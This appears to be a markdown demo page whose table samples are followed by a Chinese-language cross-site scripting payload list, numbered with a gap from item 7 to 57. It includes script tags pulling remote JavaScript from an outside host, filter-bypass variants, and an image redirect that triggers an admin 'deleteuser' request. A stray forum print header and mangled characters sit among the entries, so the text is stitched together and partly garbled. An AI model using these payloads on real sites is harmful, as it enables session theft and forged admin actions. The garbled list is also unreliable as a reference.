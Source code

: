 

## Tables and alignment

First Header | Second Header
------------ | -------------
Content from cell 1 | Content from cell 2
Content in the first column | Content in the second column

| Left-Aligned  | Center Aligned  | Right Aligned |
| :------------ |:---------------:| -----:|
| col 3 is      | some wordy text | $1600 |
| col 2 is      | centered        |   $12 |


```
(1)普通的XSS JavaScript注入

<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
(2)IMG标签XSS使用JavaScript命令

<IMG SRC=http://3w.org/XSS/xss.js/>
(3)IMG标签无分号无引号

<IMG SRC=javascript:alert('XSS')>
(4)IMG标签大小写不敏感

<IMG SRC=JaVaScRiPt:alert('XSS')>
(5)HTML编码(必须有分号)

<IMG SRC=javascript:alert("XSS")>
(6)修正缺陷IMG标签

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
(7)formCharCode标签(计算器)

(57)XML namespace.HTC文件必须和你的XSS载体在一台服务器上

<HTML xmlns:xss>
<?import namespace="xss" implementation="http://3w.org/XSS/xss.htc">
<xss:xss>XSS</xss:xss>
</HTML>
(58)如果过滤了你的JS你可以在图片里添加JS代码来利用

<SCRIPT SRC=""></SCRIPT>
(59)IMG嵌入式命令,可执行任意命令

<IMG SRC="http://www.a.com/a.php?a=b">
(60)IMG嵌入式命令(a.jpg在同服务器)

Redirect 302 /a.jpg http://www.XXX.com/admin.asp&deleteuser
(61)绕符号过滤

<SCRIPT a=">" SRC="http://3w.org/xss.js"></SCRIPT>
(62)

<SCRIPT =">" SRC="http://3w.org/xss.js"></SCRIPT>
(63)

<SCRIPT a=">" " SRC="http://3w.org/xss.js"></SCRIPT>
(64)

<SCRIPT "a='>'" SRC="http://3w.org/xss.js"></SCRIPT>
(65)

<SCRIPT a=`>` SRC="http://3w.org/xss.js"></SCRIPT>
(66)12-7-1 T00LS - Powered by Discuz! Board

https://www.a.com/viewthread.php?action=printable&tid=15267 4/6
<SCRIPT a=">'>" SRC="http://3w.org/xss.js"></SCRIPT>
(67)

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://3w.org/xss.js">
</SCRIPT>
(68)URL绕行

<A HREF="http://127.0.0.1/">XSS</A>
(69)URL编码

<A HREF="http://3w.org">XSS</A>
(70)IP十进制

<A HREF="http://3232235521″>XSS</A>
(71)IP十六进制

<A HREF="http://0xc0.0xa8.0×00.0×01″>XSS</A>
(72)IP八进制

<A HREF="http://0300.0250.0000.0001″>XSS</A>
(73)混合编码

<A HREF="h
tt p://6 6.000146.0×7.147/"">XSS</A>
(74)节省[http:]

<A HREF="//www.google.com/">XSS</A>
(75)节省[www]

<A HREF="http://google.com/">XSS</A>
(76)绝对点绝对DNS

<A HREF="http://www.google.com./">XSS</A>
(77)javascript链接

<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```
